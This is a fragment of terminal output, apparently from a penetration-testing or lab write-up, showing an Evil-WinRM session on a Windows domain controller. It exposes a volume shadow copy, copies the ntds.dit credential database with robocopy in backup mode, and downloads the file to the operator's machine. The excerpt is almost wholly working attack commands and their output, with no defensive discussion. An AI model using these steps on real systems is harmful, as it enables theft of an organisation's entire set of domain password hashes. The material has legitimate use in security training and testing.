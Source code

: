 ```bash
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %random% z:
-> %random% = {c1b9f0fc-55fe-4df8-b9d6-cc09d5be207a}
The shadow copy was successfully exposed as z:\.
->

# copy the ntds.dit database
*Evil-WinRM* PS C:\Windows\Temp> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, March 21, 2024 6:44:01 AM
   Source : z:\windows\ntds\
     Dest : C:\Windows\Temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    z:\windows\ntds\
            New File              18.0 m        ntds.dit
<SNIP>
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           109734697 Bytes/sec.
   Speed :            6279.069 MegaBytes/min.
   Ended : Thursday, March 21, 2024 6:44:01 AM

# download the file
*Evil-WinRM* PS C:\Windows\Temp> download ntds.dit

Info: Downloading C:\Windows\Temp\ntds.dit to ntds.dit

Info: Download successful!
```
